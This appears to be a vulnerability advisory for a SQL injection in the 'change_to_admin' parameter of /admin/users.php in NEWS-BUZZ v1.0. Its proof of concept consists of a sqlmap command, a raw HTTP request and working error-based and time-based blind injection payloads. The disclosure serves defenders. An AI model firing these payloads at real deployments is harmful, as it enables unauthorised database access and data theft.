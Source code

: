 # SQLi vulnerability in code-projects NEWS-BUZZ (News Management System) v1.0 of file /admin/users.php with param 'change_to_admin'

**vender**:

- code-projects

**SoftLink**:

- NEWS-BUZZ (News Management System)

**Vulnerable File**

- /admin/users.php

**Version**

- V1.0

### POC

```bash
sqlmap -r request.txt -p change_to_admin --technique ET --batch
```



```http
GET /NEWS-BUZZ/admin/users.php?change_to_admin=36 HTTP/1.1
Host: 192.168.129.1
Cookie: PHPSESSID=v43kk28qqva4ntobshvd2bhfm7; G55gnuboard5PHPSESSID=v97a0a8ojt7ipg2kkh6ts3ut73; 2a0d2363701f23f8a75028924a3af643=MTkyLjE2OC4xMjkuMQ%3D%3D; 2e61f26e7a4e8194d3d5d054536403e0=OTRjZmM1MGZiYmJkMTk4ZWFhMTRmY2Q5NWY5NWZiMmE%3D
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.129.1/NEWS-BUZZ/admin/users.php?change_to_admin=36
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
```



```
---
Parameter: change_to_admin (GET)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: change_to_admin=36' AND GTID_SUBSET(CONCAT(0x7178767671,(SELECT (ELT(9094=9094,1))),0x716a627071),9094)-- TNyq

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: change_to_admin=36' AND (SELECT 9615 FROM (SELECT(SLEEP(5)))WfoT)-- OZkx
---
```



![image-20250531011415405](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505310114474.png)